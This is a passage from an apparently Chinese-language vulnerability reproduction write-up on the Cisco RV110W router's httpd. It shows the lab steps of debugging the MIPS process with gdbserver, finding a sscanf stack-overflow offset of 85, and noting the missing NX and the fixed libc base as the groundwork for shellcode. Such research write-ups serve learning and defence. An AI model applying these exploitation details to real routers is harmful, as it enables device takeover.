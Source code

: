     python -m http.server 8080

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/18.png)

然后用telnet登入路由器后，输入以下命令（注意，主机必须关闭防火墙！！！不然是收不到东西的）

    cd tmp
    wget "http://192.168.1.100:8080/gdbserver"
    chmod +x gdbserver

之所以要进入tmp文件夹，是因为其他目录下只有读权限
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/19.png)

使用gdbserver附加httpd程序，首先我们要找到httpd程序的进程号

    ps | grep httpd

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/20.png)

可以看的httpd有两个进程，但是有用的是 http -S （测出来的）

使用gdbserver进行附加

    ./gdbserver :1234 --attach 356

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/21.png)

在本地下，进入gdb-multiarch
输入以下命令

    set architecture mips
    set endian little
    target remote 192.168.1.1:1234

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/22.png)

使用cyclc生成溢出字符串
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/23.png)

按c继续
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/24.png)

然后使用刚刚的python 发送post请求的脚本发送请求后

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/25.png)

确定发生了溢出，且溢出点偏移为85

##### 漏洞实施

因为mips 架构下不支持NX，所以可以使用shellcode
由于sscanf栈溢出，所以不能有空字节，而程序本身的gadget都带有空字节
考虑使用libc下的gadget

有一个点，它的libc基址每次都不变，一直都是2af98000
